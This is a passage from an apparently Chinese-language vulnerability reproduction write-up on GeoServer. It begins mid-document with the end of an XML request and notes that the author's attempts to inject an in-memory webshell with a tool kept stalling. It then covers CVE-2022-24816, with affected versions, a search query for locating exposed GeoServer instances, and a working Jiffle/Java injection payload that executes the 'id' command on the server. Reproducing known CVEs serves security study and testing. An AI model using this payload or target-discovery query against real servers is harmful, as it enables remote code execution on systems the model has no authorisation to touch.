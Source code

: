 ```SQL
]]>
  </wfs:valueReference>
</wfs:GetPropertyValue>
```
![image](https://github.com/user-attachments/assets/c9ef023e-c14a-47d0-9821-edc90468d6cd)



### 工具

工具使用教程：[https://rivers.chaitin.cn/blog/cqjqj6h0lnebepb58k2g](https://rivers.chaitin.cn/blog/cqjqj6h0lnebepb58k2g)

（这块的注入内存马一直卡住）
![image](https://github.com/user-attachments/assets/383eb01b-2e4d-4e27-9799-9b6fa4041068)
![image](https://github.com/user-attachments/assets/8a510c91-31c0-432e-8efc-0bab31a78fdf)


# CVE-2022-24816(远程代码执行漏洞)

## 漏洞概述

GeoServer 使用 JAI-EXT 提供的 Jiffle 地图代数语言，这让使用者可以高效地在大图像上执行地图查询。在 JAI-EXT 1.2.21 及更早版本中存在一个代码注入漏洞（CVE-2022-24816），该漏洞允许攻击者通过精心构造的 Jiffle 调用来执行远程代码。

## 影响版本

```SQL
GeoServer jal-ext <= 1.2.21
```


## 网络测绘

```SQL
app="GeoServer"
```


## 复现过程

漏洞存在于 WMS 接口中。攻击者可以通过向 `/geoserver/wms` 发送特制的请求来执行任意 Java 代码。请求中需要包含一个恶意的 Jiffle 表达式，这个表达式将被服务器执行。

```SQL
<wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
```


